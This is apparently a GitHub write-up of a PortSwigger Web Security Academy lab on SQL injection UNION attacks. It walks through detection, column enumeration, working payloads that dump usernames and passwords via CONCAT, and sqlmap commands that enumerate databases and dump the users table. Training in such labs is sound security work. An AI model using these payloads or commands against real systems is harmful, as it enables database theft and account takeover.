 \+ Lab #6    : SQL injection UNION attack, retrieving multiple values in a single column\
\+ Lab Level : Practitioner\
\+ Link      : https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.<br/>
The database contains a different table called ```users```, with columns called ```username``` and ```password```. 
To solve the Lab, perform a [SQL injection UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) to retrieve all usernames and passwords.

## End Goal: 
Log in as the ```administrator``` user.

## Detection:
* Submit a single quotation mark ```'``` in ```/filter?category=Gifts``` to break out the original SQL query quotation marks and cause an internal error
* The resulting query sent by the App to the back-end databases should look to something like:
```SQL
SELECT * FROM products WHERE category = 'Gifts''
```
* The App should return a ```500 Internal Server Error```, which means that an error has occured in the back-end database while processing the query.
* The ```category``` parameter is vulnerable to SQL injection.

## Exploitation:
### Manual:
> 📝: **HACK STEPS:** <br/>
> 1° Determine the number of columns that are being returned by the original query <br/>
> 2° Determine the columns that contains string data <br/>
> 3° Retrive data from ```users``` tables

#### Number of columns:
1. Intercept the request with Burp Suite proxy,
2. Send the request to repeater,
3. Start by injecting the ```category``` parameter with ```Gifts'+UNION+SELECT+NULL--``` which will return an error
4. And then ```Gifts'UNION+SELECT+NULL,NULL--``` which will return the results of the original query (Selecting content for product ```Gifts```) <br/>
> 📍 ***The number of columns is then ```2```***

#### Columns containing text:
1. Inject the ```category``` parameter with the following payload ```'+UNION+SELECT+'a',NULL--``` <br/>
      => If an ```Internal Server Error``` occurs, then the first column does not contain string type data.
2. And then, inject the vulnerable parameter with ```'+UNION+SELECT+NULL,'a'--``` <br/>
      => If an ```Internal Server Error``` is returned, then the second column does not contain string type data.

> 📍 ***In this Lab, the second column contain string data.*** 

#### Retrieving data:
* Since we know that there is a table called ```users``` that has two columns ```username``` and ```password``` and that we only have one column that return string data which we can control to fetch entries for table ```users```, we can the ```CONCAT``` clause <br/>
* For example, we can send the following payload: ```'+UNION+SELECT+NULL,CONCAT(username, ':', password)+FROM+users--```, which will return the usernames and passwords seperated with a colon ```:```
![2023-02-24 07_31_49-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221108630-87b2756a-6108-4fb7-b74b-c128fc343b2c.png)

* We can also do some cool stuff with ```CONCAT``` like sending the following payload: 
```SQL
'+UNION+SELECT+NULL,CONCAT('The password of ', username, ' is : ', password)+FROM+users--
``` 
![2023-02-24 07_34_40-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221109005-61fb30cb-537c-465a-afae-3d72e9d8ba90.png)

* We can also use the ```||``` to concat the results, for example:
```SQL
'+UNION+SELECT+NULL,username||':'||password+FROM+users--
```
![2023-02-24 07_31_49-SQL injection UNION attack, retrieving multiple values in a single column — Mozi](https://user-images.githubusercontent.com/101610095/221108630-87b2756a-6108-4fb7-b74b-c128fc343b2c.png)

#### Solving the Lab: 
* Now that we have dumped the credentials, we can go to ```/login``` and login as the ```Administrator``` user and solve the lab !!
![Login](https://user-images.githubusercontent.com/101610095/221110694-536b8bc1-c9de-4a38-8bd4-da3b75f997fd.png)

### Automated:
#### SQLmap:

##### Fetching Databases names:
* Command:  
```bash
sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 --dbs --batch
```
* Options: <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --proxy=http://127.0.0.1:8080 : Using BurpSuite proxy for debugging purposes <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -u : Target URL <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -p : Testable parameter <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --technique=U : SQL Injection technique to use. Here i'm using the UNION technique <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --threads : Maximum number of concurrent HTTP requests (default 1) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --level : Level of test to perform (5 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --risk : Risk of test to perform (3 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --dbs : Enumerate databases (schema) names <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --batch : Never ask for user input, use the default behavior <br/>

* Execution:
![2023-02-24 08_00_33-HACKING_MACHINE - VMware Workstation 16 Player (Non-commercial use only)](https://user-images.githubusercontent.com/101610095/221113676-d7224171-9ec8-442d-b008-e663e506c820.png)<br/>

##### Dumping data from table 'users' in database 'public':
* Command:  
```bash
sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public -T users --dump --batch 
```
* Options: <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --dump : Dump database table entries <br/>

* Execution: <br/>
![2023-02-24 07_58_23-HACKING_MACHINE - VMware Workstation 16 Player (Non-commercial use only)](https://user-images.githubusercontent.com/101610095/221113993-b9113a42-353a-4d27-88a3-377850614303.png)

#### Python3:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%235/Lab-5.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-6.py --help
usage: Lab-6.py [-h] -u URL [-n]

Usage Example: python3 Lab-6.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab-6](https://user-images.githubusercontent.com/101610095/221149027-bd9696a0-8880-450e-b5b0-e1cad7d17184.gif)

